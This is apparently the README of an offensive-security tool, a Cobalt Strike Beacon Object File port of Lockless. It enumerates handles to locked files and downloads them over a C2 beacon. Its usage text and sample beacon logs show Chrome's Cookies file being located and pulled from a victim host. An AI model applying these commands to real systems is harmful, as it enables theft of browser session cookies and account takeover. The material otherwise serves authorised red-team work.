 # LocklessBof
A Beacon Object File (BOF) implementation of [Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y), designed to enumerate open file handles and facilitate the fileless download of locked files. Within this project, you'll find two BOFs: LocklessEnum and LocklessDownload.

## LocklessEnum
LocklessEnum can be used to enumerate open file handles to a locked file. Upon detecting an open file handle, LocklessEnum supplies the user with information including the associated Process ID (PID) and the handle ID, which can then be supplied as input to LocklessDownload to download the locked file. 
### LocklessEnum Usage
```
Usage: lockless-enum <filename> <processname>
Example: 
   lockless-enum Cookies 
   lockless-enum Cookies Chrome
lockless- Enum Options: 
    <filename> -    (Required): The locked file's name.
    <processname> - (Optional): Narrow handle enumeration to the specified process. A partial name match is allowed (e.g., 'chro' for 'chrome')
```
## LocklessDownload
LocklessDownload can be used to download locked files. LocklessDownload requires the Process ID of the target process containing the open file handle, along with either the handle ID of the open file handle for the target file, or the filename to be downloaded. 
### LocklessDownload Usage
```
Usage: lockless-download <pid> <key> <value>
Example: 
   lockless-download 789 filename Cookies 
   lockless-download 789 handle_id 696
lockless-download Options: 
    <pid> -     (Required): Process ID (PID) of the target application, queried for handles to desired locked file
    <key> -     (Required): This can either be 'filename' or 'handle_id'
    <value> -   (Required): If 'filename' is chosen, provide the full name of the file to be downloaded. The filename is case sensitive
                            If 'handle_id' is chosen, provide the handle ID to the locked file to be downloaded
```
## Example
Find out which process has a handle to the locked "Cookies" file and retrieve the handles id:
```
beacon> lockless-enum Cookies
[+] host called home, sent: 6088 bytes
[+] received output:
Attempting to enumerate handle to file Cookies from  processes
[+] received output:
Process ID 2940 [Handle ID 1092] - Cookies [\Device\HarddiskVolume3\Users\defaultuser\AppData\Local\Google\Chrome\User Data\Profile 1\Network\Cookies]
```
Download the locked "Cookies" file using the identified pid and handle id
```
beacon> lockless-download 2940 handle_id 1092
[+] host called home, sent: 8796 bytes
[+] received output:
Attempting file download using handle_id 1092 from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
Download the locked "Cookies" file using the file name
```
beacon> lockless-download 2940 filename Cookies
[+] host called home, sent: 8810 bytes
[+] received output:
Attempting file download of filename Cookies from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
## References
[ProcessListHandles](https://github.com/trustedsec/CS-Remote-OPs-BOF/tree/main/Remote/ProcessListHandles) by [TrustedSec](https://github.com/trustedsec)  
[Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y)  
[Fileless download](https://github.com/fortra/nanodump) by [Fortra](https://github.com/fortra)  
Also big thanks to [KingOfTheNOPs](https://github.com/KingOfTheNOPs) for helping me resolve access mask issues with the handles. 
